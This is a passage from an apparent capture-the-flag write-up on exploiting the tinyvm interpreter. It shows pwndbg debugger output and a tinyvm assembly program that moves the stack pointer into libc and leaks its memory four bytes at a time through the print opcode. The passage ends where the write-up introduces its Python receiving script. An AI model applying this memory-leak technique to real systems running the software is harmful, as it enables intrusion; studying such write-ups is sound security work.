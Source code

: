 ```c
07:0038│     0x7ffd7eb5bdf8 —▸ 0x7ffd7eb5bee8 —▸ 0x7ffd7eb5cf9f ◂— '/media/sf_D_DRIVE/rwctf/tinyvm/bin/tvmi'
────────────────────────────────────────────[ BACKTRACE ]────────────────────────────────────────────
 ► f 0   0x55756d9422ce main+46
   f 1   0x7f5f81261d90 __libc_start_call_main+128
   f 2   0x7f5f81261e40 __libc_start_main+128
   f 3   0x55756d9421d5 _start+37
─────────────────────────────────────────────────────────────────────────────────────────────────────
pwndbg> sp
$1 = {
  i32 = 0x81238000,
  i32_ptr = 0x7f5f81238000,
  i16 = {
    h = 0x8000,
    l = 0x8000
  }
}
pwndbg> vmmap 0x7f5f81238000
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
             Start                End Perm     Size Offset File
    0x7f5f81238000     0x7f5f81260000 r--p    28000      0 /usr/lib/x86_64-linux-gnu/libc.so.6 +0x0
pwndbg> 
```

Stack grows towards lower addresses, so by doing `pop reg` we can leak bytes from memory (four bytes at per one `pop`). We can also print them because there is a VM opcode which will print a register value using `printf` ([tvm.h](https://github.com/jakogut/tinyvm/blob/master/include/tvm/tvm.h)). Unfortunately it prints value as a signed integer, so we need to handle that in python. VM program will have the following form:


```asm
# move sp to start of libc
add esp, 0x3e03ff0
mov ebp, esp

mov ecx, 0x250000
mov esi, 0

loop:
	pop eax
	prn eax

	inc esi
	cmp esi, ecx

	jl loop
```

and python part responsible for receiving four byte integers and saving them into a binary file look like this (it is probably overcomplicated): 
